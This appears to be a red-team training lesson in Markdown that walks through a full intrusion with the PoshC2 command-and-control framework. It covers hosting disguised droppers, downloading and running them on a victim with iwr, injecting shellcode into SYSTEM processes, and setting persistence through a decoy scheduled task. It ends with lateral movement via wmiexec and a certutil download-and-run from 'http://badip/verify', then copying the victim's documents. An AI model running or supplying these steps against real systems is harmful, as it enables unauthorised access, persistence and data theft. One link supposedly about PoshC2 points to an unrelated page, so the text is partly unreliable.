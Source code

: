 # Running Poshc2

Create a new project:

```
posh-project -n <project-name>
```

Projects can be switched to or listed using this script:
```
[*] Usage: posh-project -n <new-project-name>
[*] Usage: posh-project -s <project-to-switch-to>
[*] Usage: posh-project -l (lists projects)
[*] Usage: posh-project -d <project-to-delete>
[*] Usage: posh-project -c (shows current project)
```
Edit the configuration for your project:
```
posh-config
```
Edit `bindport` to 80, the `payloadcommshost` to http://(parrot IP) *Make sure you delete the s in https*

Launch the Poshc2 server:
```
posh-server
```

Separately, run the ImplantHandler for interacting with implants:
```
posh -u <username>
```

For more on `Poshc2` github like [here](https://apple.stackexchange.com/questions/254380/why-am-i-getting-an-invalid-active-developer-path-when-attempting-to-use-git-a) 

# Host Payloads 

The Poshc2 Implant Types can be summarized as:
* `PS` - PowerShell Implant.
* `C#` - C# Implant that does not use System.Management.Automation.dll.
* `PY` - Python Implant.
* `PB` - PBind

In the ImplantHandler run file upload command 
```
add-hosted-file
```

Host file options 
```console
file location > /var/poshc2/<YourProjectName>/payloads/Sharp_v4_dropper_x64.exe
file uri > /en-us/readme.md
file MIME type > text/html
Base64 > n
```

View all hosted files by running
```
show-hosted-files
```

# Download Payload on Victim 

For testing lets downloading using powershell on victim machine using a basic user
```powershell
iwr -uri http://<YourIP>/en-us/readme.md -outfile C:\windows\temp\bad.exe
```

Just to be safe, find the file in Explorer, right-click, and run as administrator.

Interact with implant by typing the number ID in ImplantHandler

# User Escalation

Check for running process 
```ps 
ps
```

Lets escalate to system through execution  

Search for any processes being ran as SYSTEM, to inject into.

```ps
inject-shellcode <PID> 
```
```ps
Sharp_x64_Shellcode.bin
```

Checking your ImplantHandler you should see a new beacon running in the context of said user.

# Persistence and Scripting 

Now to maintain our domain user privilege lets create a .ps1 script to set persistence using registry keys  

On your attack box with the editor of your choice copy the following 
```ps
$payloadpath = "C:\windows\temp\bad.exe"
$taskname = "Test Updater"
$tskdescription = "This task updates things."
$action = New-ScheduledTaskAction -Execute $payloadpath
$days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
$trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
Register-ScheduledTask -Action $action -Trigger $trigger -Taskname $taskname -Description $tskdescription
```
> Learn more about powershell `New-ScheduledTaskTrigger` [here](https://learn.microsoft.com/en-us/powershell/module/scheduledtasks/new-scheduledtask?view=windowsserver2022-ps)

Save your pslo script as bad.ps1 in /home/parrot/desktop/bad.ps1

Lets run the .ps1
```
pslo /home/parrot/desktop/bad.ps1
```

You should see your scheduled task name appear for confirmation 

# Lateral Movement 

**Only if you have more than one victim machine. If you don't, skip to Step 2**

Now lets run a `sharpview` to enumerate the network to conduct lateral movement
```
sharpview 
```
> Read more on sharpview [here](https://academy.hackthebox.com/course/preview/active-directory-powerview/powerviewsharpview-overview--usage)

We can use the enumeration script to identify the next workstation to laterally move to 

```
resolveip 127.0.0.1
```

Lets host a new payload 
```
add-hosted-file
```

Host file opttions 

```console
file location > /var/poshc2/projectname/payloads/Sharp_v4_dropper_x64.exe
file uri > /verify
file MIME type > text/html
Base64 > n
```

Run wimc to get download and execution of hosted payload
```powershell
wmiexec 127.0.0.1 <domain> <username> password=asdsa "cmd /c certutil.exe -urlcache -split -f http://badip/verify C:\windows\downloads\bad2.exe && C:\windows\downloads\bad2.exe"
```

In ImplantHandler interact with the new payload 

Lets run a built in host enumeration script 
```
seatbelt
```
Take some time to look at the differnet feilds, look into any that you dont recognize.

In the new payload handler lets navigate to the `documents` folder 
```
cd C:\users\username\documents
```

lets see what documents we can find 
```
ls
```

Now lets download some files 
```
download-file <filename>
```

Congratulations you have ran through your first OPPLAN, check [here](poshc2_help_v8.md) for the help list for Poshc2 and other commands you can run.

## [Return to course page](README.md) or [Go To Next Step](step2-proxy-nginx.md)